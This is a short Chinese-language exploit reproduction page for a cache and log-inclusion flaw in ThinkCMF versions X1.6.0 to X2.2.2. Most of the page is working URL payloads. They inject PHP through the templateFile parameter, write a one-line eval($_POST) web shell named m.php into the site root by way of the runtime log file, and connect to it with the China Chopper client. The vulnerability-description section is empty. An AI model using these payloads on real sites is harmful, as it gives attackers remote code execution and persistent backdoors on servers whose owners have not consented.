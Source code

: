 # ThinkCMF 缓存Getshell 

### 一、漏洞简介

### 二、漏洞影响

* ThinkCMF X1.6.0
* ThinkCMF X2.1.0
* ThinkCMF X2.2.0
* ThinkCMF X2.2.1
* ThinkCMF X2.2.2

### 三、复现过程

常规操作


```bash
http://url/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();
```

![](images/15893427191651.png)


**利用缓存文件getshell**

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为


```bash
data/runtime/Logs/Portal/19_12_12.log
```

**payload 一**

首先访问


```
http://url/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E
```

然后请求

即可在`http://urlurl/`根目录生成m.php，密码是X


**payload 二**

首先访问


```
http://url/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E
```

然后菜刀链接（密码也是x）


```
http://url/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```